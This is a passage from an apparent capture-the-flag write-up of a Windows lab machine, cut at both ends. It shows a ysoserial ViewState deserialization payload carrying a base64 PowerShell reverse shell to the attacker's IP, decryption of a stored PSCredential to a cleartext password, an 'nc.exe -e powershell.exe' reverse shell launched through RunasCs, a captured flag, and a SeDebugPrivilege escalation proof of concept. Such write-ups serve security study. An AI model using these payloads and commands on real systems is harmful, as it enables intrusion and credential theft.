K1Bz9myr1AwRMmZjtFF%2Bv83U4XPFtpyLNRy6I7gHFji%2BNSu3vkumT%2BobP4UKFFYxORh2s7a7jgEWDxHA94adwQy6FnSeEySG10pODEN3st0DA2Y1YgEvwza2C40Q6m%2B6sQBVK9rOTXKwLenzbydCuRXslIyEK8xUhIP%2FdjBcpBHhcsHFUachKZ9YC8bNNN8veKjb2U9VR8Y0XCzyJiByiKtwUNCzCviw8diIRvOt0s%2Bs9CNK1i%2FPq4X3jqtHKEi6qR3CtyWFyr%2BmQY9Frpu7VrqTk6utB%2BFIJakR2Dfe7%2FFbeSn7gm1W5x4OPbMuxM5BxMOEXE6eZexcDlnMcBYW6kfjkg1zXBJYnasyiw%2BLObAOFSQqifYFFH9W6Cx8W96sS7PnRgunw6oocHKE1fX35vdbfVy3hbG5Jzwnj%2BywnmXQyL3nIFLqGFOqQcA110XKhrb0SiWgmZCETV74aR5WP3%2BFBXz69ZVzXNGdQcNGsBv4A7FLeLUpiTx7DaEoq1fnbryg97HAxds%2BLDAOfwzitfe%2FAYy%2FVs3mxsEowIYa%2BttCTGB62irV0tP%2B4FnVwGqACKFozMXAHnwaER0Nl9e%2BssNc4FlDocuW2wzjRsUpxXRNI7%2B%2F5acE76viqwopALAyZ6Kub9ufJpXcz1Y2iil0SVP53yoF0ijFK3RUxFpr4KZBuefkw5hL0Pecg5v0xuCqAK71fojmFTWrX77A5WJ8zTWsqhKV4bHXnSmtEh2DAlVb0AZgAbzwA2GHHxjOCZDMY%2BwLimogKNc81pw0mN2S5kV5Smiz95bg6Zk0t3HWGnBkuKCG9jB5nYVK0MRmiCsohGNI9mJyF%2B7eKM%2Fcel6bCNY2WELLd3uLwha7fppAbarIIYkhzlh%2FBBkq%2B0WSTuf2alDGClriVSV26uxdjb9nQEyIi4ytZ%2Fn%2BfblSyYiyCHq9vp9QMQB1kcJKsaObvi825LuTCrL%2BYbwLGmrX2kxm4tGz2wIGUBASo7%2BDfVSDQ88s0YUjiyPgtHwwm5Nll37AqkHqMFPZD4BxEQKLqp0UetM13MOEjm6mVvYgU%2FhWtC8Icto%2F9W8ORsWWMnrbJvSmlqZKXs7rHe9TTokSWupszer0jbnWejxL49lRXtBxWzyFUrbsCs9VuXFp563EeLveAm3hyEq4YjIps543bZ7oA4WdsiwaGeOH87WOeMfkXT4L%2BUvTjZWhAAZH%2BbdWiYutGROsy3T4CExevNppnGvl5OiXW6E%2F6t9RLhn1dg5bP15vSjml7m3j%2BVbxcqOwDUKkX7hiht3ljls%2F1wW6gOQCEfGDlq8RdXO41f5%2BDvLRkJxTk40zZlArrygjv6nzuWpBtXmxQQ%3D%3D
C:\Users\AleksandarMilosavlje\Downloads\Release>
```

This string need to be shipped into VIEWSTATE field!



And this gives us a RCE!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.251 - - [29/Jan/2024 13:26:02] code 404, message File not found
10.10.11.251 - - [29/Jan/2024 13:26:02] "GET /AleksandarMilosavlje HTTP/1.1" 404 -


10.10.11.251 - - [29/Jan/2024 13:34:29] code 404, message File not found
10.10.11.251 - - [29/Jan/2024 13:34:29] "GET /test HTTP/1.1" 404 -
```

Now that we have a working base command we can use the B64 encoded PWSH revshell to get our first shell!

```
C:\Users\AleksandarMilosavlje\Downloads\Release> ./ysoserial.exe  -p ViewState -g TextFormattingRunProperties -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMwAiACwANQA1ADUANQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
n8eLPMYUr89mORf%2BuzI8x%2BQsJgU7vIwZEadI%2Fa0d%2B3mjdfFBH3UCsgPVDrRik4DVSwzJR16oSfggK2%2Fdaq9zS5oqq%2B7R%2F2KD6vcoQPdHacb%2BlUUSVtUzG4c%2B8QyXbfU3gzYqDwKQ0DIOy%2BXqw7HjwVjYe6Iq%2FsDc6lDXhNBrNYJq0g%2ByJZnoMvN2Hx67x79iIDz21K7U8WmpQVOMxO3qWEG9AZuDKrzdKsUJIq%2Bbqw2UOdBfHfrwetd1rqAGg75oYRx5MhuwqGnBfXCzizS33zpmYZQ9WuzMxRi2%2F6w%2FOeJns1IyZwRRYq4Anap7%2BM6y3ze9lOvQ8MHp%2BxOc8cWvLKYj04V4Ir5NfdGnnFJL%2FlduGgpcqkMLn0Q8t83QvY2qgb%2FWwzJTDAv%2FZOasXIAq2xGLjlGFyxE40yHWezWdrPTD%2BbBJUjQSBw5X%2F%2FxcQOVRyK88SKQNylrk%2Fsrez4eVWKxB1%2BgyBfExrpyL0G%2BO8nxTOJwHKm8B%2B%2BH3cI2P5I8bIZRQK5l1tDrGQRuzKplG5nzH3S3WHe4qnKQidPCVEZh8OEPXel%2BfrKaYwffaMEMEThN9T0pjkLNDGvenO9o8THjRgoe8M7a8H428b9xXzIuz1JluJbLJIV3IWeIld9aNXlAowl8WQv8gpu7gocsCaV4r3s6YoeiWmCtq84I77kr%2B6mvFcVoIYhk%2BzI95VJ2lv6%2FkqpecsCpSo5qDG8H2%2B2eES1IFkoP457wHzvBJSM1Cv95qvj2259hJzS1NMToAOWApFLWdEBYzKx0eO85PUXWAuhZIfcqxWP%2B71mCMooJQP%2FMUX516nK5uV7lVekhM3Acu0tT9ebthPHCP2XtzJS2TENPfhkG1cVz0pgb7n8qAT158PCwS2yCTT6pQvwZ2%2BpokEr2jx5dBwjeZKmCcOqmPsIonxhbt6bDUMFTpOhFJSSqe8N1HgPrDbojwbCGM5Cz2B2zp%2BQ8CZx2AfAgeVIrihRruX1wSFMANZ9oUCrV%2Fqq9qEqVk1rRMvtawrOvHxA3Kz8Dv9WsCOl%2BgbTNJRJxUf5b%2FNb4BpE%2BPS%2Fttlw3jElN%2FHMYSxqT4ANBXF7omzmjXCiuXWfXi4lC6ENAhU2KRyqze0MsLgtREN8nZ4JWq2RE9S%2Bq66DHluIi9YXfFwdvV2ZFx9mx%2Bfx5DSnxmuBDnytiEmn7WedftK2fDmdAsiOUcuX013Sz9Sn8hJ38g7%2BgdwMyA%2F3R2JeqnfkkZ2GwJycR%2BSG7t29S8wheYShoAwjhVvzYX9a5x3k145WQK6aupGvj8rlhqorplq1PiE7baqGjNrSVKbuBJKEXe4YLOPypAVSp4da8aQ3TYFI59C8o2jJ5gBmyOnH%2Bkis24MswlhqVTDTBgPwxQAuQRAgPIKRJ9HfCovoF5Khb4Xjn7E5C71uNiyy%2FQIkoAIy128OZntO5UsViNoYQ3SB0Jd%2Bp4Yzd2q9ItHx6ib0vicgbxI05eQiFLuVGsF0Rz2hcddKeMughad6LDxjbImWX1YKD584i4rPTjVIbqq5NQpqjjtDWdJjneYjIzfsGD5cCKX2z2UXSl6uPCyjnX332Y%2F54NdIV9cD8oz9xEHuW52NM5NPnkgYUqAaNZfDsk9k5XO1yPL4iikVytNWvD7D4tMdDIdbB%2FvXNvR13A6XqvcuU0JbE503gOKr767OtdH%2FS02FxS0oSdsc2502jYnmhnP3U7P5CipQV2Wamxp6Iaw%2BpVSRp5Z%2F%2FWPIW2iDn7RGStoJfbjom9wLmgvgUhLwANJyk3lxgrCBXu9uDazA%2Fm8Ml2rzM%2F%2Fn6eXBi7zDVyKVF9bw9iDGDm9mqcsI%2BzuX3EEW3HFdlCXj9rZW0u5qha9WV3iAcHieAXvpHOIlsjxLyWodQdvde0dvwKl7buJ4N7zBAheBR6Y7kDkrjhkyKmNbMhuV05poZYYEcWa5AnNcEc9Vgdd9iygrMnEFTzWLmZXyLk%2FFE%2BjWtw8atlyrMoYGzXjeTIZ3oNBV6U7wpofGkiqbUr7XGfBELO7yfsQnImnr9QjMuxFwqG0hAMW3ZaluP8eqgJq4EufyPdN1F4a1g6I853LKwFBoWe00xhIgRHMJP6ndbZV03jK89bvNw1rNp4CRd%2FTnnjRYWoRuek1DsS0FgunOWY1zPH46d8vi%2B2lmdmriv5ThNxUF0Szv8Lz4rUCCbLI6R%2FJPjkPl7043UdoWfRAandnmKoRZZ7yLngA1wzH76D%2FlfOQHcRluOqncasi68PS02Yjfq3OWU%2BTeY%2BwAOfOKakmyfv%2BAY7GFWMRkrsDaBv0p3huHFf9jTGKD8PMKEWahqrjb2IU2mAu9W4kjrEgumSdDCQ8duYd8eLssQJOFFTN3KjYRiMp8WrqN2OXhir%2FjiLlLbRYYLcIvDoJEtORlwAZKO%2FqTrr0OssiJlQXuLpETCPg75o2tGEgINZ8UY2WmD8Hf4faZaY%2F0pWIwS3G8Zm7Lycp9mX6gA0HybOx25O0WOeZAX1xxDrnc8JZC4NfJnoPiDEbnfdSLy2ScYdvzwJPuWfB%2BGYE5oVHUpJ7o8ichKp9lBaXoXosdPNY7dbKuhFAehbRWCBbRIdL%2BF8FdxvKKv5oeY9CNLROmLgKk97YJWI4XXipbjOD%2FqaWcBIPvhbGF04Os6uOncbZM1guWZESXWkSVUvBEBNPNu9SbkIvU6Z2JoDc%2B2lca4hxPGgXp0XZdApY3r7AdjSQxXUd0J8y79IthXpEq5UUFSnMPzGgyICVVVHr4s8mHOLUZOu5QK5ZfWWdOnMcNljz6OUGcAOXzuCH1be95GhtvwI7Hvcw9N4LXXbPwalJojah3S7oFWOwPbe4sxEwVOqTS%2BWi2eMNanDSymYglTYY5q2eYeZ5J4yei%2BQmWhwUWXrkRAr5PJP2xcAmjhFbz7VJ7kf9Rjiz5zImmRvEA10nVgr7npwNVXs71sMIaF6yLn1LCtTPcpRW46Ok1DwK%2BAe1PRLRE5GycAQ294Y4BrZjby0OVyLROLuOfLIFElhaRmenE7BbSkASTGVfSSeITAVYLy%2F2A62fbZIUdgx9F6rJfcYQqkeGx8cLGfI1CfThjckKUMFVg%3D%3D
```

And now we have a shell baby!

* * *

## Road to Local.txt

As we approach our first revshell we can see we are logged in as SFITZ user but we can find another users credentials hardcoded into a XML file used by powershell:

```
PS C:\Users\sfitz> ls documents


    Directory: C:\Users\sfitz\documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       12/25/2023   2:26 PM           1838 connection.xml                                                        


PS C:\Users\sfitz> cat documents/connection.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">alaading</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb54340c2929419cc739fe1a35bc88000000000200000000001066000000010000200000003b44db1dda743e1442e77627255768e65ae76e179107379a964fa8ff156cee21000000000e8000000002000020000000c0bd8a88cfd817ef9b7382f050190dae03b7c81add6b398b2d32fa5e5ade3eaa30000000a3d1e27f0b3c29dae1348e8adf92cb104ed1d95e39600486af909cf55e2ac0c239d4f671f79d80e425122845d4ae33b240000000b15cd305782edae7a3a75c7e8e3c7d43bc23eaae88fde733a28e1b9437d3766af01fdf6f2cf99d2a23e389326c786317447330113c5cfa25bc86fb0c6e1edda6</SS>
    </Props>
  </Obj>
</Objs>
```

Now we can use this to exfiltrate the password saves as secure string:

https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters#secure-string-to-plaintext

And we have his credentials in cleartext:

```
PS C:\Users\sfitz\Documents> $cred = Import-CliXml -Path ./connection.xml ; $cred.GetNetworkCredential() | Format-List *


UserName       : alaading
Password       : f8gQ8fynP44ek1m3
SecurePassword : System.Security.SecureString
Domain         :
```

But we have only port 80 so to elevate as ALAADING we can use this to invoke a new shell as other user. 

```
//Upload the needed toolkits
PS C:\Temp> ls


    Directory: C:\Temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        1/29/2024   5:14 AM        1667584 nc.exe                                                                
-a----        1/29/2024   5:15 AM          51712 RunasCs.exe                                                           


PS C:\Temp> 


//Get a new shell as ALAANG
PS C:\Temp> ./RunasCs.exe alaading f8gQ8fynP44ek1m3 "C:\Temp\nc.exe 10.10.16.3 6666 -e powershell.exe" -t 0

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-163e8b$\Default
[+] Async process 'C:\Temp\nc.exe 10.10.16.3 6666 -e powershell.exe' with pid 916 created in background.
PS C:\Temp> 


//Habemus SHELL 
PS C:\users\alaading\Desktop> whoami 
whoami 
pov\alaading
PS C:\users\alaading\Desktop> cat user.txt
cat user.txt
f1a80a45b83ae01bac9a490c5e050c12
PS C:\users\alaading\Desktop>
```

* * *

## Road to Root.txt

Now that we are logged in as ALAADING and we found the first flag we need to find a way on how to escalate as Administrator and from what I see the user hold a set of unusual Debug priviledges:

```
PS C:\users> whoami /all
whoami /all

USER INFORMATION
----------------

User Name    SID                                          
============ =============================================
pov\alaading S-1-5-21-2506154456-4081221362-271687478-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE             Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Enabled 
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

And apparently we can follow 2 paths to archive almost same thing: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#sedebugprivilege-3.1.9

Now we need to compile and upload the poc to the victim.

```
PS C:\Temp> ./poc.exe
./poc.exe
[*] If you have SeDebugPrivilege, you can get handles from privileged processes.
[*] This PoC tries to spawn cmd.exe as a winlogon.exe's child process.
[>] Searching winlogon PID.
[+] PID of winlogon: 552
[>] Trying to get handle to winlogon.
[+] Got handle to winlogon with PROCESS_ALL_ACCESS (hProcess = 0x310).
[+] New process is created successfully.
    |-> PID : 3044
    |-> TID : 1692
```

Now the problem arises since we don't have a whole interactive revshell and we can't catch the spawned shell in our primitve nc so we might need to use this instead and execute a nc command.

https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1

&nbsp;